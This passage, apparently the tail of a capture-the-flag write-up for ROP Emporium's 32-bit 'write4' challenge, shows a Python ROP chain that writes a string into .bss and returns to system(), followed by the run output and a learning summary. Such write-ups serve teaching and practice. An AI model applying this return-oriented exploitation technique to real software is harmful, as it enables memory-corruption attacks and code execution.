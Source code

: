 ```python
payload += p32(0x78742e67) # "g.tx"
payload += mov

#last write
payload += pop_2
payload += p32(bss_addr+0x10)
payload += p32(0x00000074)
payload += mov

#return to system
payload += system_addr
payload += pop_2
payload += p32(bss_addr)

print payload
```
Now that that's done, I think that I might be close to or have solved the challenge.
I wanted to test it, and this is the output
```
$ python exploit.py | ./write432 
write4 by ROP Emporium
32bits

Go ahead and give me the string already!
> ROPE{a_placeholder_32byte_flag!}
Segmentation fault
```
Looks like it worked!

## What did I learn from this?
This challenge has taught me how to use ROP (Return Orientated Programming) to write to memory, with limited control over registers and no access to a syscall gadget.
I hope that you learnt something from reading this as well.

References:

[pwntools](https://github.com/Gallopsled/pwntools)

[system call reference](http://syscalls.kernelgrok.com/)

[gdb-peda](https://github.com/longld/peda)